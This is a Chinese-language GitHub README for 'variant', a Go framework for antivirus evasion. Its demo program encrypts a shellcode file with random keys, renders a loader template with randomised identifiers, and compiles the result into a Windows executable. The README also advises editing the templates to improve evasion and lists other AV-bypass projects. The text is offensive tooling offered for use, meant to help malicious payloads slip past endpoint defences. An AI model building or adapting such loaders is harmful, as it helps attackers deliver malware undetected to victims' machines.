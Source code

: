 # variant

Go Anti-Virus Module Framework

## Description

项目`v2`更名为`variant`，现放出Demo

本项目会不断添加各种免杀的技术，但是**不适合直接不做任何修改的编译和使用**，即使是有随机特征的编译

### 特别说明

1. 学习Go免杀的代码集合，顺手做了模块化处理，**实际开发未结束，还在持续更新**；
2. 想要实现最好的免杀效果还需要自行修改渲染编译模板，代码提供了三种加载方式的渲染模板。

### 更新日志

1. 模块化配置
2. 编译功能更新
3. 渲染功能更新

## Demo

```go
package main

import (
	"fmt"
	"strings"
	"variant/build"
	"variant/enc"
	"variant/log"
	"variant/rand"
	"variant/tmpl"
)

func main() {
	// 定义模板渲染数据
	data := tmpl.Data{
		KeyName:    rand.RStrings(),
		KeyValue:   rand.LStrings(16),
		IvName:     rand.RStrings(),
		IvValue:    rand.LStrings(16),
		CipherText: rand.RStrings(),
		PlainText:  rand.RStrings(),
	}

	// 设置加密参数
	params := enc.Payload{
		PlainText: "tmpl/basetmpl/enc.bin",
		Key:       []byte(data.KeyValue),
		IV:        []byte(data.IvValue),
	}
	// 加密之后的 shellcode
	data.Payload, _ = params.EncSetKeyIv()

	// 设置模板的渲染参数
	TOpts := tmpl.TOpts{
		TmplFile:     "tmpl/basetmpl/base.tmpl",
		OutputDir:    "output",
		OutputGoFile: fmt.Sprintf("%s.go", rand.RStrings()),
		Data:         data,
	}
	// 生成模板
	err := tmpl.BuildTmpl(TOpts)
	if err != nil {
		log.Warn(err)
	}

	// 编译参数
	opts := build.COpts{
		GoFileName:    TOpts.OutputGoFile,
		ExeFileName:   fmt.Sprintf("%s.exe", strings.TrimSuffix(TOpts.OutputGoFile, ".go")),
		HideConsole:   false,
		CompileDetail: false,
		CompilePath:   "output",
	}

	// 编译
	if err = opts.Compile(); err != nil {
		log.Fatal(err)
	}
}

```

### Thanks

https://github.com/Ne0nd0g/go-shellcode

https://github.com/safe6Sec/GolangBypassAV

https://github.com/afwu/GoBypass

https://github.com/piiperxyz/AniYa

https://github.com/wumansgy/goEncrypt

https://github.com/TideSec/GoBypassAV

https://github.com/Pizz33/GobypassAV-shellcode

https://github.com/timwhitez/Doge-Gabh

后继添加 ……
